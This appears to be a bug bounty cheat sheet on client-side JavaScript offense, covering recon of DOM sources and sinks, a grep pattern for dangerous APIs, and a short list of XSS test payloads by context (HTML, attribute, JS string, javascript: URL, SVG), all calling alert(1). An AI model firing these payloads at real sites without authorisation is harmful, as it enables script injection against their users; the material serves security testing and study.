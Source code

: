 ```yaml
---
icon: square-js
---
```


# Javascript 4 Bug Bounties

## **JavaScript for Bug Bounties — Client-Side Offense & Automation**

***

### I. 🧩 Recon Mindset (Client-Side)

* **Map all sources → sinks**: URL, DOM, storage, postMessage → `innerHTML`, `eval`, `location`, dynamic script loads.
* **Inventory scripts**: first/third-party, versions, feature flags, minified bundles (look for `//# sourceMappingURL`).
* **Trace dataflows**: Grep for `dangerous` APIs; use DevTools “Search All Files”.

Quick DevTools searches:

```
innerHTML|outerHTML|insertAdjacentHTML|document.write|eval|setTimeout\(|Function\(|postMessage\(|addEventListener\('message'|JSON\.parse\(|DOMPurify|sanitize
```

***

### II. ⚔️ DOM XSS — Sources & Sinks

#### Common **Sources**

* `location.hash`, `location.search`, `document.referrer`, `window.name`
* `localStorage/sessionStorage` values
* `postMessage` event `data`

#### Dangerous **Sinks**

* `element.innerHTML/outerHTML/insertAdjacentHTML`
* `document.write`
* `eval/Function/setTimeout(string)`
* `jQuery($html)` or `.html()`
* `srcdoc`, `on*=` attributes

#### Fast Test Payloads (by context)

```
# HTML context
"><img src=x onerror=alert(1)>
# Attribute context
" autofocus onfocus=alert(1) x="
# JS string context
';alert(1);// 
# URL JS schemes (if allowed)
javascript:alert(1)
# SVG
<svg/onload=alert(1)>
```
